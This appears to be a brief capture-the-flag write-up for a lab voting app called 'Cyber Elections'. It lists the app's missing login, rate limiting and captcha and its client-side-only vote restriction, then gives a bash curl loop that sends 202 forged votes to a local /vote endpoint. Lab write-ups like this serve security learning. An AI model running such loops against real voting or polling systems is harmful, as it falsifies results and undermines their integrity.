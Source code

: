 # Cyber Elections

Tl;dr:
- No login only session, so you can vote infinitely
- No rate limiting
- No captcha
- Vote only for gov in js, but you can change the post request to vote for opposition

```bash
for i in {1..202}; do curl "http://127.0.0.1:5000/vote" -X POST -H "Accept: text/html" -H "Content-Type: application/x-www-form-urlencoded" --data-raw "candidate=opposition"; done
```

Visit /result